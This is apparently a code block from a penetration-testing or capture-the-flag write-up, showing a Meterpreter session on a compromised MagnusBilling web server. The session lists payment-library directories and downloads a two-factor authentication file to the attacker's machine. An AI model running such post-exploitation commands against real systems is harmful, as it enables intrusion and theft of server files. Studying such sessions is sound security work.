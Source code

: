 ```jsx
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  anet
100700/rwx------  64    fil   2024-02-27 14:44:28 -0500  composer.json
100700/rwx------  2459  fil   2024-02-27 14:44:28 -0500  composer.lock
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  gerencianet
040755/rwxr-xr-x  4096  dir   2025-04-18 13:27:23 -0400  icepay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  mercadopago
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  stripe

meterpreter > cd GoogleAuthenticator
meterpreter > ls
Listing: /var/www/html/mbilling/lib/GoogleAuthenticator
=======================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > cat GoogleAuthenticator.php
<?php

/**
 * PHP Class for handling Google Authenticator 2-factor authentication
 *
 * @author Michael Kliewe
 * @copyright 2012 Michael Kliewe
 * @license http://www.opensource.org/licenses/bsd-license.php BSD License
 * @link http://www.phpgangsta.de/
 */

class PHPGangsta_GoogleAuthenticator
....

meterpreter > download GoogleAuthenticator.php
[*] Downloading: GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Downloaded 6.53 KiB of 6.53 KiB (100.0%): GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Completed  : GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
meterpreter > ls
Listing: /var/www/html/mbilling/lib/GoogleAuthenticator
=======================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > cd ..
meterpreter > ls
Listing: /var/www/html/mbilling/lib
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  GoogleAuthenticator
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  PlacetoPay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  anet
100700/rwx------  64    fil   2024-02-27 14:44:28 -0500  composer.json
100700/rwx------  2459  fil   2024-02-27 14:44:28 -0500  composer.lock
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  gerencianet
040755/rwxr-xr-x  4096  dir   2025-04-18 13:27:23 -0400  icepay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  mercadopago
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  stripe
...
```